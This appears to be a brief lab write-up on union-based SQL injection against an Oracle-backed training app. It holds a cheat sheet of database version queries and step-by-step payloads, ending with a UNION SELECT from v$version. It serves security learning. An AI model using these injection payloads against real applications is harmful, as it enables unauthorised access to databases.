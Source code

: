 Get the DB Type and Version.

Provided cheatsheet below should assist:

Oracle
`SELECT banner FROM v$version  
SELECT version FROM v$instance  
`
Microsoft
`SELECT @@version`
PostgreSQL
`SELECT version()`
MySQL
`SELECT @@version`



with a union based sql injection first step is to 
(1) determine number of columns- from the lab prompt we can assume two but for demonstration purposes I entered:

 'ORDER BY 2--
 
 Full:
/filter?category=Pets' ORDER BY 2--

(2) Find out what data it accepts. You can do this with ' UNION SELECT NULL, 'a'--

I received an error here because the DB is Oracle and every SELECT query must use the FROM keyword.
Most Oracle DB will allow you to use the table dual.

After finding out which fields accept text 
(3) Next step is to try out a few queries. I did the following:
category=Pets' UNION SELECT 'a',NULL FROM dual-- 
this let me know I could put BANNER in for 'a'

I then did:
'UNION SELECT BANNER, NULL FROM v$version--

and the query successfully returned the DB version
